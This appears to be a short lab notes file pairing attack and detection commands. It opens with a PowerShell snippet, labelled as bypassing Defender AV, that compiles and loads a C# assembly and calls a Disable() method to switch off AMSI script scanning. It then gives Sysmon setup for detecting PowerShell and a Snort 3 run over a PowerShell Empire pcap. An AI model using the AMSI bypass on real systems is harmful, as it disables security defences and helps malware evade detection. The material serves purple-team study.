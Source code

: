 
#Bypass Defender AV AMSI.dll

Add-Type -TypeDefinition ([IO.File]::ReadAllText("$pwd\Source.cs")) -OutputAssembly "Source.dll"
[Reflection.Assembly]::Load([IO.File]::ReadAllBytes("$pwd\\Source.dll"))
[BP.AMS]::Disable()


#detect powershell using sysmon and wazuh

Sysmon64.exe -accepteula -i sysconfig.xml

##############snort3##########
#analyze pcap with snort
snort -c /usr/local/etc/snort/snort.lua -r /home/sysadmin/pcap/http_powershell_empire.pcap -Acmg -k none -q # check packets processing by snort.
